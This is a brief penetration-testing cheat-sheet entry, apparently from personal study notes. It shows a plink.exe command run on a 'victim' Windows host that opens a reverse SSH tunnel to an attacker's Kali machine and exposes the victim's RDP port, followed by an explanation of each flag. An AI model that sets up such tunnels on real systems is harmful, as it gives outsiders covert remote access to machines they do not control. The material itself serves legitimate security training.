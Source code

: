 > Plink (PuTTY Link) is a command-line connection tool similar to UNIX ssh


#Port_Forwarding #SSH #SSH_Tunneling #Tunneling

Making an SSH connection to the Kali machine from Victim Windows
```cmd
plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.123.69
```
- `-ssh`
	- Establish an SSH connection. 
- `-l kali`
	- Specifies the username for SSH
- `-pw <YOUR PASSWORD HERE>`
	- Specifies the password for SSH
- `-R 127.0.0.1:9833:127.0.0.1:3389`
	- Sets up a reverse tunnel from the remote system to the local system
		- Maps the local port `127.0.0.1:9833` to the remote port `127.0.0.1:3389`.
	- `127.0.0.1:9833`
		- The socket we want to open on the Kali SSH server
	- `127.0.0.1:3389`
		- RDP server port on the loopback interface of jumphost that we want to forward packets to.
- `192.168.123.69`
	- The IP address of the remote system you want to connect to.